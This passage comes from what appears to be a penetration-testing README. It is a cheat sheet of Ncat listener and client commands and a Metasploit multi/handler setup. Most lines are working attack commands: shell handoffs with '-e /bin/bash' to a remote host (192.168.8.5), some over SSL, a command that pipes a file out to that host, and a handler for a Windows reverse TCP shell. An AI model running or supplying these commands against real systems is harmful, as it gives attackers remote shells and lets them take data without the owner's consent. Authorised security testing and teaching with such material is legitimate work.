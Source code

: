 ### Ncat

[Server] Set up a listener:

```fundamental
ncat -nvlp 9000

ncat -nvlp 9000 > received_data.txt

ncat -nvlp 9000 -e /bin/bash

ncat -nvlp 9000 -e /bin/bash --ssl

ncat -nvlp 9000 --ssl-cert "sws_crt.pem" --ssl-key "sws_key.pem"

ncat -nvlp 9000 --keep-open <<< "HTTP/1.1 200 OK\r\n\r\n"
```

[Client] Connect to a remote host:

```fundamental
ncat -nv 192.168.8.5 9000

ncat -nv 192.168.8.5 9000 < sent_data.txt

ncat -nv 192.168.8.5 9000 -e /bin/bash

ncat -nv 192.168.8.5 9000 -e /bin/bash --ssl

ncat -nv 192.168.8.5 9000 --ssl-cert "sws_crt.pem" --ssl-key "sws_key.pem"
```

For more options run `man ncat` or `ncat -h`.

Find out how to create an SSL/TLS certificate from my other [project](https://github.com/ivan-sincek/secure-website/tree/master/crt).

<p id="multi-handler"/>

### multi/handler

Set up a `multi/handler` module (change the PAYLOAD, LHOST and LPORT as needed):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 127.0.0.1

set LPORT 9000

exploit
```
